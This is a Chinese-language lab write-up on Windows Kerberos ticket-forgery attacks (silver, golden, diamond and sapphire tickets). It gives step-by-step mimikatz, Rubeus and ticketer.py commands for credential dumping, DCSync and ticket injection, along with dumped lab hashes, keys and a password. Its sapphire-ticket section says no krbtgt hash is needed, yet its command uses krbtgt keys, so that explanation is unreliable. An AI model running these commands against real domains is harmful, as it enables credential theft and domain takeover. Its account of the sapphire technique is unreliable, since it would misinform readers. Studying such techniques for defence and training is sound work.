# 1、Kerberos协议
- 背景：
  - Kerberos 是一种基于对称密码体制的身份认证协议，核心目标是解决 “分布式网络中，用户如何安全证明身份，且避免密码在网络中明文传输” 的问题。
  - 在 Windows 域环境中，Kerberos 是默认的身份认证协议（替代早期的 NTLM），所有域内主机（客户端、服务器、域控）的认证均通过 Kerberos 完成，这也是域渗透中 “票据攻击”（如黄金票据、白银票据）的技术基础。
- Kerberos组成部分：
  - 客户端（Client）：发起认证请求的主体（如域内用户的 PC），需证明自己的身份以访问服务
  - 密钥分发中心：域内唯一的认证核心（部署在域控制器 DC上），分为以下两个子服务
    - AS：处理Client的初始认证，生成 票据授予票据（TGT）
    - TGS：验证Client的TGT，生成服务票据（ST）
  - 应用服务器（Server）：提供具体服务的主机（如文件服务器、数据库服务器）
- 原理：
  - Kerberos 通过票据替代密码传输，整个流程可拆解为 3 次关键认证，本质是Client获取TGT -> 用TGT获取ST -> 用ST访问Server的过程，所有票据均通过对称加密保证安全性，具体交互细节如下：
  1. 第一次认证（获取 TGT）：Client 用自身密码哈希加密认证器（含用户名、目标服务类型）发送给 AS；AS 查询域控用户数据库，用用户密码哈希解密验证身份，验证通过后，生成用 TGS 哈希加密的 TGT（含用户信息、会话密钥、有效期）和用用户密码哈希加密的会话密钥，一并返回给 Client；Client 用自身密码哈希解密得到会话密钥，同时保存 TGT。
  2. 第二次认证（获取 ST）：Client 将原始 TGT，以及用会话密钥加密的新认证器（含用户名、时间戳）发送给 TGS；TGS 用自身哈希解密 TGT 获取用户信息与会话密钥，再用会话密钥解密认证器验证合法性，验证通过后，生成用目标 Server 哈希加密的 ST（含用户信息、Server 会话密钥、有效期）和用会话密钥加密的 Server 会话密钥，返回给 Client；Client 用会话密钥解密得到 Server 会话密钥，同时保存 ST。
  3. 第三次认证（访问 Server）：Client 将原始 ST，以及用 Server 会话密钥加密的新认证器（含用户名、时间戳）发送给 Server；Server 用自身哈希解密 ST 获取用户信息与 Server 会话密钥，再用 Server 会话密钥解密认证器验证合法性，验证通过后，生成用 Server 会话密钥加密的 “时间戳 + 1” 响应给 Client；Client 解密响应确认 Server 合法性后，双方建立安全通信。
- 原理图：


# 2、白银票据
- 原理：
  - 白银票据的核心是绕过Kerberos认证的前半部分，直接伪造一张访问特定服务的“门票”（ST票据）。正常流程中，用户需要先向域控证明身份拿到TGT（入场许可证），再用TGT去申请访问某个具体服务的ST票据。而白银票据攻击跳过了向域控申请这一步，攻击者只需要知道目标服务账户的密码哈希（NTLM Hash），就能用这个哈希加密伪造一张ST票据。这张假票直接递给目标服务，因为服务只验证票是不是用自己账户的哈希加密的，并不联系域控核实，所以就被骗过去了。
- 特征：
  - 无域控交互：攻击全程不与KDC通信，只在客户端和目标服务器之间进行。
  - 服务特定：一张白银票据只能访问一种服务（如CIFS用于文件共享，HTTP用于Web服务）。
  - 日志在目标服务器：域控上无相关日志，但目标服务器的安全日志中会有对应的服务登录记录（4624事件）。
  - 有效期长：默认票据有效期为8小时（与Kerberos策略一致），且可自定义设置更长时间。
  - 无法获取新的TGT：白银票据只是服务票据（ST），不能用来申请访问其他服务的票据。
- 条件：
  - 已获取服务账户的NTLM哈希（如MSSQL服务账户、机器账户等的哈希）。
  - 目标服务的SPN（服务主体名称）。
  - 目标域SID和域名。
  - 网络可达：能访问目标服务器且目标服务使用Kerberos认证（如SMB、HTTP、MSSQL等）。
- 实验：
```
信息收集：

shell wmic useraccount get Caption,sid      # 获取当前系统的用户账户信息，包括用户名和对应的SID
privilege::debug       # 启用调试权限
sekurlsa::logonpasswords      # 提取LSASS进程中缓存的登录凭证，包括NTLM哈希、明文密码（如果存在）以及Kerberos票据

票据注入：

mimikatz kerberos::purge     # 清除原有票据
kerberos::golden /sid:[目标域SID] /domain:[域名] /target:[hostname+域名] /service:cifs /rc4:[服务用户NTLM] /user:[任意填写]/ptt   # 生成并立即注入白银票据。该命令伪造一个针对特定服务（此处为CIFS/SMB服务）的Kerberos服务票据。核心参数：/rc4 指定目标服务账户的NTLM哈希，/ptt 表示将生成的票据直接注入当前会话内存，以便后续直接使用该票据访问服务
```


通过上述命令获取到如下信息：
```
目标域SID：S-1-5-21-2175991766-487195419-4049039487
目标服务（CIFS）NTLM：ca88b6bc13f1001830670182a3642df8
目标域administrator的RID：500
```
``注意：没有注入票据时因为hello用户是域内普通用户，无权限列出域内主机PC的C盘下的内容``

清空原有票据并伪造出域内主机PC的CIFS服务票据：


# 3、黄金票据
- 原理：
  - 攻击者拿到域控制器上krbtgt账户的密码哈希后，用这个哈希自己签发伪造的Kerberos TGT（黄金票据）。有了这张伪造的TGT，就能以任意用户身份（通常是管理员）向域控申请访问任何服务的票据，从而获得域内的完全控制权。因为它绕过了正常的Kerberos认证流程，自己当“发证机关”。
- 特征：
  - 权限极高：可访问域内任何服务、任何主机
  - 不与KDC交互：申请服务票据时才需要连域控，制作票据时不需要
  - 有效期极长：默认10年（可自定义），远超普通票据的8小时
  - 无法被直接吊销：除非重置krbtgt账户密码（需两次重置）
  - 域控安全日志异常：会出现用同一TGT频繁申请大量服务票据的日志
- 条件：
  - 已获取krbtgt账户的NTLM/AES哈希
  - 知道域名和域SID
  - 能访问域控的88端口（Kerberos）以申请服务票据
  - 攻击发生在域环境中
- 实验：
```
信息收集：

mimikatz privilege::debug            # 获取调试权限
mimikatz lsadump::lsa /inject /name:krbtgt    # 获取用户krbtgt的NTLM值
shell wmic useraccount get Caption,sid   # 获取当前系统的用户账户信息，包括用户名和对应的SID

票据注入：

mimikatz kerberos::purge     # 清除原有票据
mimikatz kerberos::golden /domain:de1ay.com /sid:[domain_sid] /rc4:[krbtgt用户密钥之一] /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt      # 使用krbtgt哈希伪造管理员TGT，组ID 512代表域管理员组，/ptt直接注入内存
```


通过上述命令获取到如下信息：
```
目标域SID：S-1-5-21-2756371121-2868759905-3853650604
krbtgt用户密钥（任选其一即可）：
    NTLM：82dfc71b72a11ef37d663047bc2088fb
    aes256_hmac：42e65a58c000dab8d353b1ff2bee93383f27f0966767afa8c1f32fc51122d118
    aes128_hmac：5eb13d2a0e1f4980c3e3810d5da3da4f
krbtgt的RID：502
administrator的RID：500
```

``注意：没有注入票据时因为hello用户是域内普通用户，无权限列出域控c盘下的内容``

清空原有票据并伪造出administrator用户票据：

查看注入后的票据列表：

重新清除票据之后又无法访问了：


# 4、钻石票据
- 原理：
  - 在已有合法 TGT 基础上，用 krbtgt 密钥重新加密 TGT 中含用户权限、组信息等授权数据的 PAC 部分（注入高权限信息），而用户身份、会话密钥等基础部分仍用真实用户会话密钥加密，生成 “半真半假” 的 TGT，既保留真实用户属性又能提升权限，因 Server 验证 ST 后会解析 PAC 获取授权信息，篡改 PAC 即可让 Server 认可高权限。
- 特征：
  - 需要krbtgt密钥：核心是使用krbtgt的AES密钥重新加密PAC
  - “混合”票据：用户数据真实 + PAC权限伪造
  - 隐蔽性极高：比黄金票据更难检测，因为用户部分是真实的
  - 需要已有TGT：必须有一个合法用户的TGT作为基础
- 条件：
  - 已获取krbtgt账户的AES密钥
  - 已捕获一个合法用户的TGT票据
  - 知道域名和域SID
  - 能访问域控Kerberos服务
- 实验：
```
信息收集：

mimikatz privilege::debug 
mimikatz lsadump::dcsync /domain:de1ay.com /user:krbtgt exit    # 获取krbtgt用户aes256密钥


票据制作：

Rubeus.exe diamond /krbkey:42e65a58c000dab8d353b1ff2bee93383f27f0966767afa8c1f32fc51122d118 /user:hello /password:hello123.. /enctype:aes /domain:de1ay.com /dc:dc.de1ay.com /ticketuser:lepustimidus /ptt /nowrap        # 用用户密码重新加密现有TGT，生成隐蔽的钻石票据

票据注入：

Rubeus.exe asktgs /ticket:[新加密的ticket票据] /service:cifs/dc.de1ay.com /ptt /nowrap    # 用新生成的钻石票据TGT向域控申请CIFS服务
```

收集到的信息如下：
```
krbtgt用户aes256：42e65a58c000dab8d353b1ff2bee93383f27f0966767afa8c1f32fc51122d118
低权限用户：hello
低权限用户密码：hello123..
域控：dc.de1ay.com
伪造票据用户名：lepustimidus // 任意名字即可
```
没注入票据时，低权限用户无法访问域控C盘下的内容：

在域控上传Rubeus.exe并制作钻石票据：

注入票据：



# 5、蓝宝石票据
- 原理：
  - 蓝宝石票据是一种针对Kerberos协议PAC验证机制的权限提升攻击，核心是利用“域控对PAC签名验证的信任特性”，在已有合法服务票据（ST）的基础上，篡改PAC中的权限信息（如注入域管组SID），再通过域控的PAC签名服务重新生成合法签名，最终得到含高权限信息且签名有效的服务票据。正常流程中，PAC由KDC生成并签名，Server会验证PAC签名合法性以确认用户权限；而蓝宝石票据攻击无需获取krbtgt哈希（区别于黄金/钻石票据），仅需借助域控的PAC签名接口，让篡改后的高权限PAC获得合法签名，从而欺骗目标服务认可攻击者的高权限身份。
- 特征：
  - 依赖域控PAC签名服务：核心是利用域控的MS-PAC协议接口（如LSASS服务提供的PAC签名功能），为篡改后的PAC生成合法签名，攻击过程需与域控交互。
  - 基于合法ST篡改：需以一个已有的合法服务票据（ST）为基础，仅篡改其中的PAC部分，票据其他结构保持真实，隐蔽性高于黄金票据。
  - 无需krbtgt哈希：攻击核心不依赖krbtgt账户密钥，仅需目标服务的合法访问权限（能获取对应ST），降低了攻击前置条件门槛。
  - 权限范围可控：篡改PAC时可自定义注入的权限信息（如特定用户组、权限级别），生成的票据仅对目标服务有效（类似白银票据的服务特定性，但权限可自定义提升）。
  - 日志特征明显：攻击过程中会产生域控上的PAC签名相关日志（如4769事件，Kerberos服务票证请求），且ST的PAC签名为域控合法签名，常规检测难以区分。
- 条件：
  - 已获取目标服务的合法服务票据（ST）：该ST需对应存在PAC结构的服务（如CIFS、HTTP等支持Kerberos认证的服务），且攻击者能获取该ST（可通过合法登录、票据捕获等方式）。
  - 能访问域控的PAC签名服务：需与域控的LSASS服务建立通信（通常通过RPC接口），具备向域控发送PAC签名请求的网络权限（域内主机默认可访问该服务）。
  - 知晓域控PAC签名密钥相关信息：需获取域控用于PAC签名的密钥（即域控机器账户的NTLM/AES哈希，因PAC签名密钥默认与域控机器账户哈希关联）。
  - 具备PAC结构篡改能力：能解析合法ST中的PAC数据，篡改其中的用户组SID、权限标识等信息（可借助mimikatz、Kekeo等工具实现）。
  - 攻击环境为Windows域环境：仅适用于采用Kerberos认证且启用PAC机制的Windows域环境（默认域环境均启用）。
- 实验：
```
信息收集：

和上面三个票据的信息差不多，收集方法参考上面

制作票据：

python ticketer.py -request -impersonate 'administrator' -domain 'de1ay.com' -user 'hello' -password 'hello123..' -aesKey '[krbtgt用户aes256值]' -domain-sid '[域控SID]' -nthash '[krbtgt用户NTLM值]' 'lepustimidus'       # 制作蓝宝石票据

注入票据：

mimikatz kerberos::ptc [票据文件ccache]     # 注入蓝宝石票据
```
``注意：因为魔改ticketer.py无法上传到目标机，所以只能在本地环境运行，需要搭建代理让流量通到内网域控，并修改本地hosts文件指定域名对应IP，比如该实验环境：10.10.10.10  de1ay.com``



执行ticketer.py制作票据：


普通用户没有注入票据前无法访问dc：

将票据上传到普通用户机器并注入：

注入成功！